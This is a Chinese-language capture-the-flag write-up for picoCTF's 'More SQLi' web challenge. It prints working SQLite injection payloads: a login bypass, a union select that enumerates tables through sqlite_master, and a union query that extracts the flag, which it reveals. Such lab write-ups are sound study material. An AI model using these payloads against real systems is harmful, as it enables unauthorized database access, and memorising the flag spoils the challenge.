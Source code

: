 ```yaml
---
title: PicoCTF - More SQLi
tags: [PicoCTF, CTF, Web]

---
```


# PicoCTF - More SQLi
## Background
* [Feifei Lab](https://lab.feifei.tw/practice/sqli/sql4.php)
* Hint SQLiLite

## Recon
先隨便輸入發現他很貼心有給完整的payload，發現他是先檢查password，在沒有任何防護的情況下，直接用最經典的payload就可了
Account: Any
Password: `' or '1'='1' -- #`
![](https://hackmd.io/_uploads/rJXd-oLd3.png)

---
![](https://hackmd.io/_uploads/Bki0WoLd3.png)
## Exploit - SQLi(Union Selection)
現在的目標是flag應該是藏在別的table，所以先找甚麼table
1. 找table
透過[Kaibro的cheat sheet](https://github.com/w181496/Web-CTF-Cheatsheet#sqlite)，SQLite的爆破payload是`SELECT name FROM sqlite_master WHERE type='table'`，而目前我們可以用union based的方式搜尋，先觀察搜尋`Algiers`的搜尋column有三個，第一個column是chr，第二個column是chr，第三個是int，所以在用union select的時候要遵守<font color="FF0000">**查詢數量一樣、每個欄位的型態一樣**</font>
Payload: `Algiers' union SELECT sql,sql,1 FROM sqlite_master WHERE type='table'; --`
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/rk9G4oLO2.png)
    :::
2. Find Flag - Union based
目前發現有兩個table比較可疑
    * CREATE TABLE hints (id INTEGER NOT NULL PRIMARY KEY, info TEXT)
    * CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)
    
    可以直接用前面同樣的方式找flag，觀察這個table只有兩個column，且一個column的type是int，另外一個是text，而第三個column就隨便填
    Payload: `Algiers' union SELECT id,flag,1 FROM more_table; --`
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/ryonEoIdn.png)
    :::
    Flag: `picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_98236ce6}`
## Reference
[ picoCTF 2023 More SQLi ](https://youtu.be/W1EjP6OFpUQ)
[Kaibro - SQLi](https://github.com/w181496/Web-CTF-Cheatsheet#sqlite)
[Feifei Lab](https://lab.feifei.tw/practice/sqli/sql4.php)